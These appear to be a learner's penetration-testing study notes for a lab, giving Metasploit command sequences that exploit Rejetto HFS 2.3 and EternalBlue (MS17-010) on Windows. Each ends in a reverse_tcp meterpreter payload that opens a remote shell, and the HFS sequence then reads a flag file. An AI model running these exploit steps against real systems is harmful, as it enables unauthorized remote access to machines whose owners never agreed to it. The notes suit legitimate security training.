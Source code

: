   

### _==**Windows Exploitation**==_

when u exploit a windows server and get a meterpreter session , u can get a screenshots , video records , webcam recored , just type `help` on the materpreter session

> ==_AUTHORITY\LOCAL SYSTEM_== ⇒ when u exploit somthing and have a highest privs on system

> ==AUTHORITY\LOCAL SERVICE== ⇒ that when u exploit a service , so u have a highest privs related to this process just

  

- ==Exploiting A Vulnerable HTTP File Server==

> HTTP FILE SERVER : is a web server that is designed for file & document sharing . ( it’s host for document and file to share and download )

> typically on port 80

> the difference between a http server and http file server is the http file server u designed it just to host file u want to share with users .

> example of http file server is ⇒ `Rejetto HFS`

- ==Exploiting HTTP File Server==
    
    - `nmap -sV -O -sS <ip>` ⇒ to do some port scan to identify the **_==Rejetto Hfs 2.3==_**
    - `service postgresql start`
    - `msfconsole` && `workspace -a HFS` && `setg RHOST <target ip>`
    - `search type:exploit name:regetto` && `use exploit/windows/http/rejetto_hfs_exec`
    - `run` ⇒ we can see the meterpreta session is open and we gain access to the server , we can modify the payload to x64 ⇒ `set payload windows/x64/meterpreter/reverce_tcp`
    - `shell` && `cd c://` && `type flag.txt`
    
      
    

  

- ==Exploiting Windows MS17-010 SMB Vulnerability==

> ==EternalBlue(MS17-010)== ⇒ is collection of windows vulnerabilities and exploits that allow attackers to remotely execution code and gain access to windows system

> on SMBv1 Protocol

- ==Exploit EternalBlue(MS17-010)==
    
    - `nmap -sS -sV -O <target ip >` ⇒ to do some port scanning and identify the smb
    - `service postgresql start`
    - `msfconsole` && `workspace -a Blue`
    - `search type:auxiliary name:eternalblue`
    - `use auxiliary/scanner/smb/smb_ms17_010`
    - `set rhost <target ip>` && `run`
    - `search type:exploit name:eternalblue` && `use exploit/windows/smb/ms17_010_eternalblue`
    - `set rhost <target ip>` && `set payload windows/x64/meterpreter/reverce_tcp` && `run`
    
      
    

  